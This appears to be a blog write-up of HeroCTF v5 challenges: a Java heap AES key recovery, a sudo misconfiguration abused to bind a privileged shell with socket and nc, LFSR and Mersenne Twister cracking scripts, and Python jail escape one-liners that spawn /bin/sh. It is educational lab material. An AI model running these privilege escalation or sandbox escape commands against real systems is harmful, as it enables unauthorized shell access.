



Organized by the students of Engineering students in France, this was a nice CTF with an interesting variety of challenges. Unfortunately, I did not have much free time to play in the CTF this weekend. I was able to solve a few challenges, and came very close on a couple. While I didn't participate much, my CTF team did a great job and scored 10119 points, placing 9th in a global field of over 1000 teams

<!--more-->
## Solves

#### Heap
`We caught a hacker red-handed while he was encrypting data. Unfortunately we were too late to see what he was trying to hide. We did however manage to get a dump of the java heap. Try to find the information he wants to hide from us.`

We are given a Java heap profiler file. Searching the internet, there seems to be a couple of tools that can inspect it. I chose to use `VisualVM`.



Open the file in VisualVM, switch to Object view. Filter by `hero`. This gives us several interesting classes. The main one being a class called `AESEncrypt`. 



Looking into the instance of the object, there are three interesting strings. Inspect the attributes and copying the values gives us the following strings. 

```
    K_E__Y = "c45c60232c9847e2"
    message = "kSDIsBFTYa3+aLqEpVLXtspdLse8WclEhbqGLiqvM6k="
    mode = "AES/ECB/PKCS5Padding"
```

Plug these strings into Cyberchef to get the flag.



#### SUDOkLu
`This is a warmup to get you going. Your task is to read /home/privilegeduser/flag.txt. For our new commers, the title might steer you in the right direction ;). Good luck!`

We are given the credentials to `user` and can connect via ssh to the server.

```bash
    % ssh user@dyn-02.heroctf.fr -p 11873
    user@sudoklu:~$ id
    uid=1000(user) gid=1000(user) groups=1000(user)
    user@sudoklu:~$ ls -lsart /home/
    total 20
    8 drwxr-xr-x 1 root           root           4096 May 12 10:35 .
    4 drwxr-x--- 1 privilegeduser privilegeduser 4096 May 12 10:35 privilegeduser
    4 drwxr-xr-x 1 root           root           4096 May 15 20:47 ..
    4 drwxr-x--- 1 user           user           4096 May 15 20:48 user
```

Upon connecting, we can see that we are `user` and do not have access to the home directory of `privilegeduser`, which contains the flag.

```bash
    user@sudoklu:~$ sudo -l
    Matching Defaults entries for user on sudoklu:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
        use_pty

    User user may run the following commands on sudoklu:
        (privilegeduser) NOPASSWD: /usr/bin/socket
```

The challenge hints at the sudo command exploit. Looking at the sudo permissions for the current user, shows that `user` can execute `/usr/bin/socket` as the `privilegeduser` without supplying the password. Looking at the command `socket` shows that we can run a program that can accept take the input/output from the socket. 

```bash
    user@sudoklu:~$ /usr/bin/socket -h
    /usr/bin/socket: invalid option -- 'h'
    Usage: socket [-bclqrvw] [-B local ip] [-p prog] {{-s|host} port | [-s] /path}
```

We will use the sudo command to run the `/usr/bin/socket` command to spawn a shell and listen on a given port. I put that task in the background.  Next, we can connect to this shell via the socket and interact. We can see that we now are operating in a shell with the identity of `privilegeduser`, and can just `cat` the flag.

```bash
    user@sudoklu:~$ sudo -u privilegeduser /usr/bin/socket -p bash  5555 -s &
    [1] 48


    user@sudoklu:~$ nc localhost 5555
    id
    uid=1001(privilegeduser) gid=1001(privilegeduser) groups=1001(privilegeduser)
    cat /home/privilegeduser/flag.txt
    Hero{ch3ck_f0r_m1sc0nf1gur4t1on5}
```

## After the CTF

I was stuck on these challenges during the competition. I have captured these solutions and my analysis for future reference. 

#### Futile
`Linear Futile Shift Register`

This challenge was full of red herrings. We are given a challenge server, that runs the following program:

```python
    #!/usr/bin/env python
    from pylfsr import LFSR
    from functools import reduce
    import os

    flag = os.environ.get('FLAG','Hero{fake_flag}').encode()

    # converts a binary list into a integer .. equivalent of int(''.join(l), 2)
    def binl2int(l: list) -> int:
        return reduce(lambda x,y: 2*x+y, l)
    # Returns an instance of LFSR.
    # The order is 8, so the initial state consists of 8 bits, chosen randomly
    def lfsr() -> LFSR:
        return LFSR(fpoly=[8,6,5,4], initstate='random')
    # Runs 8 clock cycles and returns the integer values of the bits that were shifted out. This will be the initial state in the reverse order.
    '''
        In [4]: print(L)
        LFSR ( x^8 + x^6 + x^5 + x^4 + 1)
        ==================================================
        initstate 	=	[1 0 1 0 0 0 0 0]
        fpoly     	=	[8, 6, 5, 4]
        conf      	=	fibonacci
        order     	=	8
        expectedPeriod	=	255
        seq_bit_index	=	-1
        count     	=	0
        state     	=	[1 0 1 0 0 0 0 0]
        outbit    	=	-1
        feedbackbit	=	-1
        seq       	=	[-1]
        counter_start_zero	=	True

        In [5]: L.runKCycle(8)
        Out[5]: array([0, 0, 0, 0, 0, 1, 0, 1])
    '''
    def get_uint8() -> int:
        return binl2int(lfsr().runKCycle(8))
    # XOR each character value with the LFSR initial state integer, which will never be 0.
    def mask(flag: bytes) -> str:
        return bytearray(f ^ get_uint8() for f in flag).hex()

    while True:
        try:
            input('Hero{' + mask(flag[5:-1]) + '}\n')
        except Exception as e:
            # This exception handling is the clue
            pass

```

Since the LFSR generator uses a random initial state, it is possible that the initial state can be all zeros. This is invalid as there is no information to generate subsequent bits. Hence the function throws an exception.  We can capitalize on this fact that no flag character is ever XORed with 0 (which would return itself).
```
    ...
    ...
    raise ValueError('Invalid Initial state vector: Initial state vector can not be All Zeros')
ValueError: Invalid Initial state vector: Initial state vector can not be All Zeros
```

So, the logic to solve this challenge is as follows:
1. From the first response, determine the length of the flag
1. For each character of a flag, prepare a list of all possible 8 bit values (0 to 255)
1. For each character, if the server sends a value for the character, remove that value from the corresponding list. 
1. Repeat the process until each position has only ONE value left. This is the value of the flag's character.
1. Assemble and print. 

```python
    from pwn import *
    #p = remote('static-01.heroctf.fr',9001)
    p = process(["python3","chall.py"])
    flag = p.recvline()
    flag_len = len(flag[5:-2])//2  #ignore 'Hero{' and '}\n'
    print(f"Len = {flag_len}")
    count = 1
    flag_vals = []
    for i in range(flag_len):
        flag_vals.append(list([x for x in range(255)]))

    while True:
        for i in range(flag_len):
            val = int(flag[5+2*i:5+2*i+2],16)
            try:
                flag_vals[i].remove(val)
            except Exception as e:
                pass

        print(*[len(x) if len(x) > 1 else chr(x[0]) for x in flag_vals ])
        if (all([len(x)==1 for x in flag_vals])):
            break
        
        p.sendline("\n")
        flag = p.recvline()
        count+=1
    real_flag = [chr(l[0]) for l in flag_vals]
    print("Hero{"+''.join(real_flag)+"}")
    print(f"#iterations: [{count}]  Flag length: [{flag_len}]")
```

#### Uniform
`A Mersenne Twister with a twist`

The challenge server runs the following program, which prints a series of 624 randomly generated floating point numbers. Our task is to predict the next one. The number 624 refers to the number of consecutive 32-bit integers that need to be known to recreate the internal state of the Mersenne Twister PRNG used widely.

```python
    #!/usr/bin/env python
    import random
    import os

    # TODO: xanhacks told me that this was "too unoriginal" and
    #       that I should change it, lets see how he likes this...

    # guess = lambda: random.getrandbits(32)
    guess = lambda: random.uniform(0, 2**32-1)

    for _ in range(624):
        print(guess())

    secret = str(guess())

    if input('> ').strip() == secret:
        print(os.environ.get('FLAG', 'Hero{fake_flag}'))
    else:
        print('Nope! It was:', secret)
```

The wrinkle is that it takes two 32-bit integers to generate each floating point number. And, 11 bits of the total of 64 bits are lost in converting the integers to a 53-bit IEEE 754 floating point value. Those 11 bits have to be recreated for each uniform random value to accurately recreate the internal state.  This is where the absolutely fantastic symbolic mersenne untwister comes in handy. 

```python
    CONST_2E53 = 1.0 * 2 ** 53
    CONST_2E26 = 2 ** 26

    def float_to_2_rands(num):
        # takes a float between [0 .. 1] and return two random values with symbolic bits 
        n = int(num * CONST_2E53)
        n1 = n // CONST_2E26   # can be maximum 53 - 26 = 27 bits long; generated using 32bits >> 5
        n2 = n % CONST_2E26    # can be maximum 26 bits long: generated using 32bits >> 6
        return (n1, n2)

    def two_rands_to_float(n1, n2):
        # takes two 32-bit random numbers and returns a float value between [0..1]
        n1 = n1 >> 5
        n2 = n2 >> 6
        v = ( (n1*CONST_2E26) + n2 ) / CONST_2E53 
        return v

    def test_uniform_randomness():

        # Use the symbolic Mersenne Untwister
        # from https://github.com/icemonster/symbolic_mersenne_cracker/blob/main/main.py

        ut = Untwister()

        MAX = 2**32 -1

        # we are given a series of 624 floating point numbers generated by random.uniform() in the range 0 .. 2^32 -1 
        for _ in range(624):
            u = random.uniform(0, MAX)              
            n1, n2 = float_to_2_rands(u/MAX)        # convert to a float between 0 .. 1, and get the two 32 bit rands
            bits_n1 = f"{n1:027b}" + "?????"        # add back the bits that were lost as symbolic variables
            bits_n2 = f"{n2:026b}" + "??????"       # add back the bits that were lost as symbolic variables

            assert (len(bits_n1) == 32)
            assert (len(bits_n2) == 32)

            ut.submit(bits_n1)
            ut.submit(bits_n2)
        
        r2 = ut.get_random()

        for _ in range(100):
            assert(random.getrandbits(32) == r2.getrandbits(32))

        print(f"Predicted next random int {r2.getrandbits(32)} ---> actual {random.getrandbits(32)}")

        print("Let's predict the next series of uniformally distributed randoms")

        for i in range(10):
            u = random.uniform(0, MAX)

            n1 = r2.getrandbits(32)
            n2 = r2.getrandbits(32)
            v = two_rands_to_float(n1, n2) * MAX
            print(f"Predicted next uniform rand {v:010.8f} ---> actual {u:010.8f}")
            assert( u == v )

```
#### pyjail solutions
```python
    >>> print("".__class__.__mro__[1].__subclasses__()[132].__init__.__globals__['system']('sh'))
```

#### pyGulag solutions
```python
    >>> print.__self__.__loader__.load_module('o''s').spawnv(0, "/bin/sh", ["i"])
    >>> print(print.__self__.__loader__().load_module('o' + 's').spawnvp(print.__self__.__loader__().load_module('o' + 's').P_WAIT, "/bin/sh", ["/bin/sh"]))
```
## Writeups
* Official writeups: https://github.com/HeroCTF/HeroCTF_v5/
* Blockchain writeups: https://github.com/J4X-98/Writeups/tree/main/CTFs/HeroCTF
* https://siunam321.github.io/ctf/HeroCTF-v5/
* https://mxcezl.github.io/posts/write-up/ctf/heroctf-v5/
* https://chrootcommit.github.io/tags/heroctfv5/
* Blockchain solves using `Foundry`: https://github.com/m4k2/HeroCTF-V5-WU-Foundry


## Challenges
|Category|Challenge|Description
|----|----|----
|Blockchain|Challenge 01 : Classic one tbh|
|Blockchain|Challenge 02 : Dive into real life stuff|
|Blockchain|Challenge 03 : You have to be kidding me..|
|Blockchain|Challenge 04 : Now this is real life|
|Blockchain|The Second Transaction and the Offshore Connection|
|Blockchain|The Third Transaction and the Insider|
|Blockchain|The arrest|
|Blockchain|Tracing the First Transaction|
|Crypto|Futile|LFSR+brute_force+
|Crypto|Hyper Loop|
|Crypto|Lossy|
|Crypto|Uniform|Symbolic Mersenne Twister, PRNG with float
|Forensic|Heap|Java Heap analysis + AES
|Forensic|My Poor Webserver|
|Forensic|Windows Stands for Loser|
|Forensic|dev.corp 1/4|
|Forensic|dev.corp 2/4|
|Forensic|dev.corp 3/4|
|Forensic|dev.corp 4/4|
|Misc|Erlify|
|Misc|Feedback|
|Misc|I_Use_zsh_BTW|
|Misc|Irreductible|
|Misc|Pygulag|
|Misc|Pyjail|filtered[eval, exec], 23< input < 127, only print() allowed
|Misc|Welcome|
|OSINT|Hero Agency 1/4|
|OSINT|Hero Agency 2/4|
|OSINT|Hero Agency 3/4|
|OSINT|Hero Agency 4/4|
|OSINT|OpenPirate|
|Prog|Math Trap|
|Prog|cub|2-d puzzle construction (small)
|Prog|e-pu|3-d puzzle construction (med)
|Prog|zzle|3-d puzzle construction (v.large)
|Pwn|Appointment Book|
|Pwn|Gladiator|
|Pwn|Impossible v2|
|Pwn|Rope Dancer|
|Pwn|Unknown|
|Reverse|Give My Money Back|
|Reverse|Hero Ransom|
|Reverse|InfeXion 1/4|
|Reverse|InfeXion 2/4|
|Reverse|InfeXion 3/4|
|Reverse|InfeXion 4/4|
|Reverse|Optimus Prime|
|Reverse|Scarface|
|Reverse|Wourtyx RPG|
|Reverse|sELF control v3|
|Sponsors|Open your eyes 1/5|
|Sponsors|Open your eyes 2/5|
|Sponsors|Open your eyes 3/5|
|Sponsors|Open your eyes 4/5|
|Sponsors|Open your eyes 5/5|
|Steganography|Annoucement|
|Steganography|EMD|
|Steganography|LSD#2|
|Steganography|PDF-Mess|
|Steganography|PNG-G|
|Steganography|Subliminal#2|
|System|Chm0d| Unix chmod 000 situation
|System|Drink from my Flask#2|
|System|IMF#0: Your mission, should you choose to accept it|
|System|IMF#1: Bug Hunting|
|System|IMF#2: A woman's weapon|
|System|IMF#3: admin:admin|
|System|IMF#4: Put the past behind|
|System|SUDOkLu| Sudo misconfiguration
|Web|Best Schools|
|Web|Blogodogo 1/2|
|Web|Blogodogo 2/2|
|Web|Drink from my Flask#1|
|Web|Referrrrer|
|Web|Simple Notes|
|Web|YouWatch|